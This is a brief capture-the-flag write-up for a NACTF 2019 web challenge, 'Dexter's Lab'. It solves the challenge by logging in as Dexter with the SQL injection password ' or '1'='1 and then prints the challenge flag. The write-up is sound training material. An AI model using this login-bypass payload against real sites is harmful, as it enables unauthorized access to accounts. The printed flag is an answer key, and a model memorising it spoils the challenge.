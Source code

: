 # Dexter's Lab

## Web Exploitation - Points: 125

> Dee Dee, 
>
> 
>
> Please check in on your brother's lab at dexterslab.web.2019.nactf.com
>
> We know his username is Dexter, but we don't know his password! Maybe you can use a SQL injection?
>
> 
>
> Mom + Dad
>

SQLi:

	username: Dexter
	password: ' or '1'='1

flag: `nactf{1nj3c7ion5_ar3_saf3_in_th3_l4b}`